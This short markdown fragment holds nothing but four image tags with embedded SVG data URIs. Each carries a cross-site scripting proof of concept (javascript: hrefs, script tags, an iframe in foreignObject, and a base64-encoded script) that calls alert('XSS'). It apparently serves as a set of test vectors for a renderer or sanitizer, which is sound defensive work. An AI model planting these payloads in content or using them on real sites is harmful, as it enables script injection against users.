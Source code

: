 ![](data:image/svg+xml,<svg><image href="javascript:alert('XSS')"/></svg>)
![](data:image/svg+xml,<svg><script>alert('XSS')</script></svg>)
![](data:image/svg+xml,<svg><foreignObject><iframe src="javascript:alert('XSS')"></iframe></foreignObject></svg>)
![](data:image/svg+xml;base64,PHN2Zz48c2NyaXB0PmFsZXJ0KCdYU1MnKTwvc2NyaXB0Pjwvc3ZnPg==)